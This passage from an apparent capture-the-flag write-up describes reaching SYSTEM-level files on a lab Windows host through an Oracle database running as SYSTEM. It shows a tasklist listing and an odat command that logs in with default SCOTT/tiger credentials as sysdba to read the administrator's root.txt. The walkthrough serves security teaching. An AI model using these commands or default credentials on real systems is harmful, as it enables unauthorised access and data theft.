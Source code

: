     C:\Users\Administrator\Desktop>type root.txt
    cd39ea0a
    

## Alternative Path to root

### Oracle Execution

The alternative path to root is to go directly through the Oracle database,
since it is running as SYSTEM. If we cheat and check out a `tasklist` with our
shell, we can see that (as well as that IIS isn’t running as SYSTEM):

    
    
    PS C:\Windows\system32> tasklist /v
    
    Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
    ========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
    System Idle Process              0 Services                   0          4 K Unknown         NT AUTHORITY\SYSTEM                                   202:51:56 N/A
    System                           4 Services                   0        276 K Unknown         NT AUTHORITY\SYSTEM                                     0:23:07 N/A
    ...snip...
    oracle.exe                    1136 Services                   0    638,440 K Unknown         NT AUTHORITY\SYSTEM                                     1:37:10 N/A
    OraClrAgnt.exe                1264 Services                   0      2,484 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:00 N/A
    TNSLSNR.EXE                   1280 Services                   0     20,760 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:10 N/A
    ...snip...
    w3wp.exe                      1688 Services                   0     31,192 K Unknown         IIS APPPOOL\DefaultAppPool                              0:00:00 N/A
    ...snip...
    

#### Grab root.txt

Once we have `odat` running, instead of writing a webshell, just grab
root.txt:

    
    
    root@kali# odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt
    
    [1] (10.10.10.82:1521): Read the c:\users\administrator\desktop\root.txt file on the 10.10.10.82 server
    [+] Data stored in the c:\users\administrator\desktop\root.txt file (escape char replace by '\n'):
    CD39EA0A...
    

#### Shell

Still, we wouldn’t know the user directory at this point, so we should use
Oracle to get a shell.
